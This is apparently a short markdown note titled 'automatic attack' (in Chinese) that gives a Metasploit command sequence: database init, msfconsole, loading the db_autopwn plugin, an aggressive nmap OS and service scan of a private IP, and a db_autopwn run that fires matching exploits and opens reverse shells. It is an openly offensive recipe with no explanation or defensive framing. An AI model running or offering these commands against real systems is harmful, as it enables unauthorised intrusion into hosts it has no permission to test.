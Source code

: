 # 自动攻击

> msfdb init

> msfconsole

> load db_autopwn

> db_nmap -sV -v -O -T 5 192.168.135.98

> db_autopwn -t -e -p -r
